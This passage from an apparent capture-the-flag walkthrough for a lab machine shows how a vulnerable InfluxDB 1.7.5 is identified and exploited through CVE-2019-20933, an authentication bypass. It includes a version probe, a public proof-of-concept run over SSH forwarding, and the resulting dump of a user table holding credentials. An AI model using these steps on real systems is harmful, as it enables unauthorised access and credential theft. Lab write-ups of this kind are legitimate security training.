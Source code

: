 *(Yeah, it seems a bit made up that the chat history is hard coded in the
source files of the chat server - but let's just accept it. After all, it could
also be a "real" chat server that stores the history somewhere and replays the
chat backlog upon connecting.)*

Thus, the next clue is: InfluxDB. The default port for the InfluxDB HTTP service
is 8086, and using netstat we can see this port is indeed listened to, so let's probe it:

```plain
patrick@devzat:~$ wget --server-response http://127.0.0.1:8086
--2022-04-25 12:53:08--  http://127.0.0.1:8086/
Connecting to 127.0.0.1:8086... connected.
HTTP request sent, awaiting response...
  HTTP/1.1 404 Not Found
  Content-Type: text/plain; charset=utf-8
  X-Content-Type-Options: nosniff
  X-Influxdb-Build: OSS
  X-Influxdb-Version: 1.7.5
  Date: Mon, 25 Apr 2022 12:53:08 GMT
  Content-Length: 19
```

Nice, so we now got a version number: 1.7.5. That makes it much easier to look
for known exploits - in this case:

> **CVE-2019-20933:** InfluxDB before 1.7.6 has an authentication bypass vulnerability in the authenticate function in services/httpd/handler.go because a JWT token may have an empty SharedSecret (aka shared secret).

It's always a good idea to search for the CVE number together with *"github"*
and/or *"poc"*. In this case, we quickly find a [GitHub repository](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) with a Python script to exploit vulnerable InfluxDB versions.
We can upload this script to the machine and try to run it there - but this will
fail because some packages are missing. So I'll just use SSH forwarding for port 8086
and run the script on my machine (I've compacted the output a bit):

```plain
Host vulnerable !!!

Databases:

1) devzat
2) _internal

.quit to exit
[admin@127.0.0.1] Database: devzat
[admin@127.0.0.1/devzat] $ show measurements;
                    "values": [
                        [
                            "user"
                        ]
[admin@127.0.0.1/devzat] $ select * from "user";
{
                    "values": [
                        [
                            "<password>",
                            "catherine"
                        ],
```
Now just `su catherine` and we can read the user flag!
